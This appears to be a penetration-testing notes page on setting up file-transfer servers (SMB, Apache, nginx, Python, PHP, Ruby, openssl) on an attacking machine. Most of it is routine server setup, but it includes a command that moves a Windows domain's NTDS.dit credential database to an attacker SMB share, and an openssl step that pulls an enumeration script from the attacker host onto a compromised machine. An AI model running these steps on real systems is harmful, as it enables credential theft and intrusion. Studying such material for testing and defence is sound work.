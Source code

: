 ```yaml
---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
```

# Setting up a server (in the attacking machine)

| **Protocol / app**                            |
| --------------------------------------------- |
| [smb server](#smb-server)                     |
| [Apache server](#apache-server)               |
| [ngix](#nginx)                                |
| [symple python server](#simple-python-server) |
| [php web server](#php-web-server)             |
| [Ruby web server](#ruby-web-server)           |
| Burp Suite Collaborator                       |
| [Interactsh](interactsh.md)                   |
| [responder](responder.md)                     |
| [uploadserver](uploadserver.md)               |
| [Webdav wsgodav server](webdav-wsgidav.md)    |
| FTP server                                    |

## FTP server 

We may also host our script through the FTP protocol.  We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```
# Install the library
sudo apt-get install python3-pyftpdlib

# Launch the server
sudo python3 -m pyftpdlib -p 21  
```


## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
# Alternative 1
impacket-smbserver -smb2support CompData $(pwd)

# Alternative 2
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

## nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

Nginx server: 

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep 80
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nginx server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


## Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


##  PHP web server

```shell-session
php -S 0.0.0.0:8000
```


## Ruby Web Server

```shell-session
ruby -run -ehttpd . -p8000
```

## uploadserver

More at [uploadserver](uploadserver.md).

Python's http.server extended to include a file upload page. Accepts the same options as http.server, plus a couple extras.

After the server starts, the upload page is at /upload. For example, if the server is running at http://localhost:8000/ go to http://localhost:8000/upload .

Warning: This is an upload server, and running it will allow uploads.

Repo: https://github.com/Densaugeo/uploadserver

**Installation:**

```bash
python3 -m pip install --user uploadserver
```

Basic usage:

```bash
python3 -m uploadserver
```


## openssl

Create a certificate in the attacker's machine:

```shell-session
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Launch the openssl server in the attacker's machine:

```shell-session
openssl s_server -quiet -accept $portAttacker -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine. So, download the file from the victim's machine:

```shell-session
openssl s_client -connect $ipAttacker:$portAttacker -quiet > LinEnum.sh
```
